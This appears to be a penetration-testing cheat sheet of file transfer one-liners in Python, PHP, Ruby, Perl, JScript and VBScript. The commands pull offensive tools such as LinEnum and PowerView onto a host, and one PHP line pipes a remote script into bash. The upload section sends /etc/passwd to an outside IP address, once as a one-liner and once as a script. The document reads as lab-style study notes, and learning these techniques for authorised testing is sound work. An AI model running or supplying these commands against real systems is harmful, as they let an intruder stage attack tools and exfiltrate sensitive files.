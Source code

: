 ```yaml
---
title: File_Transfer_Methods_Code
tags:
  - file_sharing
created: 2025-02-25
---
```


## Python

#### Python 2 - Download

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

#### PHP Download with `file_get_contents()`

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### PHP Download with `fopen()`

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe to Bash

```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby

#### Download a File

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## Perl

#### Download a File

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

#### JavaScript Code (wget.js)
 Create a file called wget.js and save the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

#### Download a File Using JavaScript and `cscript.exe`

```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

#### VBScript Code (wget.vbs)
Create a file called wget.vbs and save the following content:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

#### Download a File Using VBScript and `cscript.exe`

```cmd
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3

#### Start Python Upload Server

```bash
python3 -m uploadserver
```

Output:

```
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

##### Above python file upload script

```python
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it, and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(URL, files={"files": file})
```